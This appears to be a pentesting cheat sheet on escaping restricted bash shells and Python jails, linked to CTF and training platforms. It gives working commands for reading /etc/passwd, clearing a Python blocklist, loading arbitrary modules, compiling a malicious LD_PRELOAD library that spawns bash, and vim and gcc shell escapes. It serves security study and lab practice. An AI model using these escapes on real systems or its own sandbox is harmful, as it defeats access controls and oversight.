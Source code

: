 # Restricted Shells

[![linuxprivilegeescalation](../../../../_badges/htb/linuxprivilegeescalation.svg)](https://academy.hackthebox.com/course/preview/linux-privilege-escalation)
[![escaping_from_jails](../../../../_badges/hacktricks/escaping_from_jails.svg)](https://book.hacktricks.xyz/linux-hardening/privilege-escalation/escaping-from-limited-bash#bash-jails)
[![bash_restricted_shells](../../../../_badges/rootme/app_script/bash_restricted_shells.svg)](https://www.root-me.org/en/Challenges/App-Script/Bash-Restricted-shells)

<div class="row row-cols-lg-2"><div>

A restricted shell such as `rbash` is a shell that restrict the action of the user to a limited list of commands/arguments. For instance, for rbash:

* we cannot use commands with pathnames containing a "/"
* we can use `help` to list available commands
* we cannot use `cd`
* more restrictions may be in place

To escape of restricted shells, we can try to use command substitution (ex: <code>ls \`pwd\`</code>), command chaining, or editing environment variables.
</div><div>

Common tricks:

* **List files**: `echo /*` and `echo /.*`
* **Read a file**: `read f < /etc/passwd; echo $f`
* **Read a file**: `f=$(</etc/passwd); echo $f`

Use `compgen -c`, `help`, or `<tab>` to list available commands.

📚 Sometimes, `ssh [...] -t "/bin/bash --noprofile"` may work.
</div></div>

<hr class="sep-both">

## Restricted Bash (rbash)

[![bash_restricted_shells](../../../../_badges/rootme/app_script/bash_restricted_shells.svg)](https://www.root-me.org/en/Challenges/App-Script/Bash-Restricted-shells)

<div class="row row-cols-lg-2"><div>

#### Enumeration

The `readonly` command is useful to list which variable you can't edit.

```shell!
$ readonly
ENV
PATH
HOME
```

You can use `declare` to get information about your environment.

```shell!
$ declare -x # remove -x to see functions
BASH_VERSINFO=([0]="4" [1]="4" [2]="20" [3]="1" [4]="release" [5]="i686-pc-linux-gnu")
BASH_VERSION='4.4.20(1)-release'
PATH=/tmp/void/
SHELLOPTS=braceexpand:emacs:hashall:histexpand:history:interactive-comments:monitor
```
</div><div>

#### Read a file

Method using `mapfile`:

```shell!
$ mapfile array < /etc/passwd
$ echo ${array[@]}
```

Method using `history`:

```shell!
$ export HISTFILE=/etc/passwd
$ history -r
$ history
```

Method using `bind`:

```shell!
$ bind -f /etc/passwd
```
</div></div>

<hr class="sep-both">

## Python Jails

<div class="row row-cols-lg-2"><div>

#### Python Jails Enumeration

Find variables and information about your context:

```py
globals()     # global symbols (variables, functions)
locals()      # local symbols (function, method, block)
vars()        # without any argument, same as 'locals'
```

```py
__builtins__.__dict__
del __builtins__  # restore them
```

#### Python File Write

[![pythonplayground](../../../../_badges/thm-p/pythonplayground.svg)](https://tryhackme.com/r/room/pythonplayground)

You can arbitrarily create files or python scripts using:

```py
print("Hello, World!", file=open("/dev/shm/poc", "w"))
print("im"+"port os\nprint(os.getcwd())", file=open("/dev/shm/poc.py", "w"))
```

#### Python File Read

```py
file=open("/etc/passwd", "r"); print(''.join(file.readlines()))
help('print') # :e/path/to/file
```
</div><div>

#### Python Jails Escape

[![pythonplayground](../../../../_badges/thm-p/pythonplayground.svg)](https://tryhackme.com/r/room/pythonplayground)

Arbitrarily set a variable, such as the list of blocked commands:

```py
setattr(__import__('__main__'),'blocklist',[])
```

Set the path to load arbitrary Python files:

```py
setattr(__import__("sys"), "path", list(("/dev/shm/",)))
__import__("my_file")
```

Use breakpoint:

```py
breakpoint() # then write any python code
```
</div></div>

<hr class="sep-both">

## Special Scenarios

<div class="row row-cols-lg-2"><div>

#### LD_PRELOAD

[![bash_restricted_shells](../../../../_badges/rootme/app_script/bash_restricted_shells.svg)](https://www.root-me.org/en/Challenges/App-Script/Bash-Restricted-shells)

If we have access to a program that honor `LD_PRELOAD`, e.g. any command aside from the builtin functions, we may be able to pop a bash. For that to be possible, we need a malicious `.so`. 

If `gcc` is available, we can easily compile one, while it's unlikely. 

```shell!
$ echo 'void _init() {' > /tmp/test.c
$ echo 'system("/bin/bash");' >> /tmp/test.c
$ echo '}' >> /tmp/test.c
$ gcc -shared -fPIC /tmp/test.c -o /tmp/test.so -nostartfiles
$ LD_PRELOAD='/tmp/test.so' gcc
```

➡️ If gcc is available, `gcc -wrapper /bin/bash,-s .` is faster.
</div><div>

#### VIM

[![bash_restricted_shells](../../../../_badges/rootme/app_script/bash_restricted_shells.svg)](https://www.root-me.org/en/Challenges/App-Script/Bash-Restricted-shells)

If you can run VIM, it's easy to escape:

```ruby!
:set shell=/bin/bash
:shell
```
</div></div>